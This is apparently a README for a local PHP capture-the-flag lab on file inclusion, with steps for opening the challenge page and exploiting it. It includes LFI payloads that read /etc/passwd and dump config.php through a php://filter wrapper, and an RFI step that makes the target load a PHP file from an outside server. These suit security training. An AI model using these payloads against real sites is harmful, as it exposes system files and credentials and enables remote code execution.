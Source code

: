 
## 3️. Access the Challenge
Now, open your browser and go to:

```
http://localhost/lfi_rfi_ctf.php
```

You'll see the challenge page! 

---

## 4️. Exploiting LFI
To test Local File Inclusion, try:

```
http://localhost/lfi_rfi_ctf.php?page=/etc/passwd
```

✔ If successful, you'll see the `/etc/passwd` file!  

### Advanced LFI Techniques :
- Use PHP Wrappers:  
  ```
  ?page=php://filter/convert.base64-encode/resource=config.php
  ```
- Try Log Poisoning for RCE (if logs are accessible).

---

## 5️. Exploiting RFI
To test Remote File Inclusion**, host a malicious PHP file (`evil.php`) on your server:

```php
<?php
echo "Hacked! RFI Successful!";
?>
```

Upload it to a public server (`http://yourserver.com/evil.php`) and execute:

```
http://localhost/lfi_rfi_ctf.php?rfi=http://yourserver.com/evil.php
```

If successful, it will execute your remote script

---

## 6️. Capture the Flag!
Try accessing:

```
http://localhost/lfi_rfi_ctf.php?flag=getit
```
